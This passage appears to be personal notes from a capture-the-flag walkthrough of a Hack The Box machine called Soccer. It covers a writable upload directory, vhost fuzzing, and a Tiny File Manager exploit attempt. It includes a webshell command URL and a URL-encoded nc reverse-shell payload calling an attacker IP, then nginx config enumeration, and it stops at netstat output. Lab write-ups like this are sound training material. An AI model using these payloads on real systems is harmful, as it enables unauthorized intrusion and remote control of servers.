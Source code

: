 Q4: What is the name of the directory on the file manager do you have write access to?
- once logged in visit /upload and we can see there is a directory called /uploads which has permission 757, meaning anyone has write permission to this directory 

Q5: There is another virtual host configured nginx. What is the hostname?
- tried to enumerate for the vhost using ffuf however no luck
- `$ ffuf -w ./subdomains-top1million-20000.txt:FUZZ -u http://soccer.htb:80/ -H 'Host: FUZZ.soccer.htb'` 
- then tried to search for exploit and found https://github.com/febinrev/tinyfilemanager-2.4.3-exploit/tree/main
- tried to use both bash and python POC unable to gain a reverse shell 
- tried modified the upload directory to match with `/var/www/html/tiny/uploads' did not work
- able to gain access to a webshell by uploading a webshell directly in the /upload folder and calling it `http://soccer.htb/tiny/uploads/webshell.php?cmd=whoami`
- get a revershell by sending a payload on webshell ` http://soccer.htb/tiny/uploads/webshell.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+10.10.14.28+4444+%3E%2Ftmp%2Ff`
- once gainted the initial foodhold we can check the nginx config file 
```
$: cat /etc/nginx/nginx.conf
<snip>
        ##
        # Virtual Host Configs
        ##

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;
<snip>
$ ls -l /etc/nginx/sites-enabled/
total 0
lrwxrwxrwx 1 root root 34 Nov 17  2022 default -> /etc/nginx/sites-available/default
lrwxrwxrwx 1 root root 41 Nov 17  2022 soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
$ ls -l /etc/nginx/sites-available/
total 8
-rw-r--r-- 1 root root 442 Dec  1  2022 default
-rw-r--r-- 1 root root 332 Nov 17  2022 soc-player.htb
$ cat /etc/nginx/sites-available/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}

```
Q6: On loading the /check page on the new site, what is the full URL of the connection made to port 9091?
- according to the nginx config, the soc-player.soccer.htb is served at port 3000 on localhost that means we cant access it directly from external network
- we can confirm it with `netstat`
```
$ netstat -tnlp
Active Internet connections (only servers)
```